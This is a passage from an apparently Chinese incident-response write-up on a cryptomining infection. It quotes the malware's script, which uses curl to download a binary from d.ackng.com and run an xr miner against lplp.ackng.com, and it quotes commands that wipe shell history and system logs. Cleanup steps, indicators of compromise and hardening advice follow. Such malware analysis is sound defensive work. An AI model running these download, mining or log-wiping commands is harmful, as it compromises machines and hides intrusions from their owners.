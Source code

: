 ```
if [ ! -d "/.Xll" ];then
	mkdir /.Xll
fi
cd /.Xll
if [ ! -f "./xr" ];then
	uname -a|grep x86_64 && (curl -fsSL d.ackng.com/ ......
fi
uname -a|grep x86_64 && ps aux|grep lplp.ackng.com |grep -v grep || ./xr -o lplp.ackng.com:444 --opencl --donate-level=1 --nicehash -B --http-host=0.0.0.0 --http-port=65529
```
上面这段代码是下载恶意二进制程序，应该就是挖矿病毒本体。

最后是清理痕迹
```
history -c
echo 0>/var/spool/mail/root
echo 0>/var/log/wtmp
echo 0>/var/log/secure
echo 0>/var/log/cron
echo > /root/.bash_history 
```

### 清理与恢复
根据恶意脚本的逻辑，整理出清理步骤如下
1 删除crontab恶意定时任务
2 杀死./xr进程
3 删除/.Xll 目录

## 总结与反思
### 病毒标识
+ 目录及文件 /.Xll  和  /.Xll/xr
+ 进程标识 ps aux | grep lplp.ackng.com
+ 两个域 t.amynx.com， t.jdjdcjq.top

### 挖矿威胁小于勒索
每次碰到病毒入侵要应急都心惊胆颤，挖矿病毒都还好，最坏情况是重装个环境，客户数据是安全的，如果是勒索病毒就会很棘手。

无论如何，还是尽量保证系统安全性，减小系统入侵攻击面，这样可以极大保护系统不被入侵。

### 防护建议
一般来说，自动化的入侵一般都是利用非常简单的漏洞，比如若口令，使用存在漏洞的组件，未授权访问等，另外一个感染病毒的方式是ssh证书认证。如上文提到的，针对ssh横向传播就有三个方式，看来这种方式还是很受青睐的。所以对于厂商来说，还是要适当的控制ssh证书登入。


** 本文重在分析病毒入侵的应急响应经验，笔者不对因本文而导致的安全事件负任何责任。 **

** 由于笔者水平有限，文章难免会有错误，欢迎读者批评指正。笔者个人邮箱：kafrocyang@gmail.com **
